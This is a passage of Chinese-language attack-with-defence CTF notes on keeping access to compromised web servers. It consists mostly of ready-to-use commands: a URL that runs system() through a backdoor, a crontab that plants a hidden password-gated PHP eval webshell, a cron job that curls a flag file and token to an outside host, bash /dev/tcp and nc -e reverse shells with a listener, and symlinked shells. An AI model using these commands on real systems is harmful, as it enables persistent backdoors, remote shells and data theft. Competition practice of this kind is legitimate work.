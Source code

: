 ```
url/upload/at2.php?passwd=obse007&at=system('ls');
```

## 权限维持

预留后门的权限维持特别重要，不要急着拿flag，往后每一轮预留后门都会减少，未雨绸缪。
**crontab定时任务**
1.使用定时任务写马

```
system('echo "* * * * * echo \"<?php  if(md5(\\\\\\\\\$_POST[pass])==\'462d4a0e7cedd6b024a4d99f10c614d1\'){@eval(\\\\\\\\\$_POST[1]);}  \" > /var/www/html/.index.php\n* * * * * chmod 777 /var/www/html/.index.php" | crontab;whoami');
```

密码：atkx
来指定用户运行指定的定时任务

2.使用定时任务发送带有flag的请求

```
bash# 编辑 crontab：crontab -e
*/5 * * * * curl 10.10.10.5:8000/submit_flag/ -d 'flag='$(cat /home/web/flag/flag)'&token=7gsVbnRb6ToHRMxrP1zTBzQ9BeM05oncH9hUoef7HyXXhSzggQoLM2uXwjy1slr0XOpu8aS0qrY'
# 查询 crontab：crontab -l
```

3.使用定时任务反弹shell

```
bash -c bash'bash -i >& /dev/tcp/[ip]/[port] 0>&1'

nc -e /bin/bash 1.3.3.7 4444 bash
```

**反弹shell**
nc反弹shell

```
bash -i >& /dev/tcp/192.168.182.130/6666 0>&1
```

本地

```
nc -l -p 6666
```

## 软链接

软连接语法：

```
ln -s  [shell路径]   [新文件路径]
```

使用方法：
访问/upload/new.php，实际上是访问/upload/shell.php
